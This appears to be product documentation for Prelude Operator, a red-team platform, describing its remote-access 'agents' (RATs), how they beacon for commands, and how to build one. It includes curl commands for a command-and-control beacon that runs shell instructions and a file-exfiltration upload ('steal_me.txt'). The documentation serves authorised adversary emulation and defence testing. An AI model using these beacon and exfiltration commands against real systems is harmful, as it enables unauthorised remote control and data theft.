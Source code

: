 ```yaml
---
title: "Agent"
slug: "agent"
excerpt: "Remote Access Trojans"
hidden: false
metadata: 
  image: []
  robots: "index"
createdAt: "Wed Jun 29 2022 15:17:45 GMT+0000 (Coordinated Universal Time)"
updatedAt: "Wed Jan 25 2023 19:28:27 GMT+0000 (Coordinated Universal Time)"
---
```

An agent, often referred to as a Remote Access Trojan, is a process running on a remote computer which can run commands while under the control of a bad actor. Agents beacon into Operator periodically to ask for instructions to run. Each agent is automatically grouped into a range. Agents communicate to Operator through one of several network protocols, such as TCP, UDP, or HTTP.

### What is ThirdEye?

***

ThirdEye is a Node.js agent that is built directly into Operator. When Operator starts, ThirdEye automatically launches and beacons into your Home range with the username of the user running the desktop application. It only communicates locally to Operator and is designed for testing TTPs out before deploying them in the wild.  
This agent cannot be deleted.

### What is Pneuma?

***

Our most popular open-source agent is called [Pneuma](https://docs.preludesecurity.com/v1/docs/pneuma), a Go agent which supports all major operating systems  
and 3 different protocols (TCP, UDP, HTTP/S). Pneuma is capable of executing nearly all TTPs and chains loaded into Operator. Professional and enterprise customers have access to PneumaEX, an extended version with support for modules. 

### Additional agents

***

Prelude supports multiple script agents written in various languages. Some agents are designed for specific operating systems while others are multi-platform. You can find details about these agents in the main section, including download options to start using them.

### Agent limits

***

Operators are logical groupings of agents. For example, an Operator can be used to cluster agents from various platforms (darwin, linux, windows) in order to run a cross-platform chain against all the agents. Agents can be moved between Operators using either command line flags or the Update Config sidebar in the main section. Depending on the license level the maximum number of agents that can be connected at a single time differ - with 5 being the most for community members and 50 for professional and enterprise users.

### Agent facts

***

Each agent collects and manages its own collection of facts, which it will use as variables inside TTP commands. You can interact with these facts by clicking into the Knowledge Store. You can supply an agent with new facts manually or the agent can report facts itself through the Beacon object.

### Deleting an agent

***

When you delete a file-based agent, like Pneuma, the connection is stopped and the agent is archived - meaning it will no longer show up inside Operator but the data remains in your workspace, if you need to restore it. However, if you don't stop the agent's process on the compromised machine, the agent will just beacon back in and create a new version of itself. To stop the process, you will need to send the agent an "exit" keyword command. You can do this by using the "Stop Agent Process" procedure. Run this, then delete the agent to completely block it.

### Build your own agent

***

You can write your own agent in any language easily. Follow this simple interface to do so. You can copy the below commands into a terminal to get a real agent online. The required Beacon properties are: name, links, target, location, platform, executors, sleep, facts.

#### HTTP Agent 1st beacon to Operator

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Sleep":60,
    "Links":[],
    "Facts":[]
}'
```

#### Operator responds with instructions

```shell
{
    "links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6",
            "Executor":"sh",
            "Request":"arp -a",
            "Payload":""
        }
    ]
}
```

#### HTTP Agent executes instructions and sends a new beacon

```shell
curl -X POST localhost:3391 -H 'Content-Type: text/plain' -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Sleep":60,
    "Links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6",
            "Executor": "sh",
            "Payload": "",
            "Request": "arp -a",
            "Response": "some response",
            "Status": 0,
            "Pid": 123
       }
    ],
    "Facts":[]
}'
```

### Additional options

Aside from sending beacons, an agent can also exfiltrate files back to Operator over HTTP(s). Below is an example in cURL. The agent must supply the API token along with its name. Any exfiltrated files will be stored in your agent's artifacts directory (in the Prelude workspace).

```shell
curl -X PUT "http://localhost:3391" -H "key: ${operator.session}" -H "agent: ${agent.name}" -F upload=@steal_me.txt
```
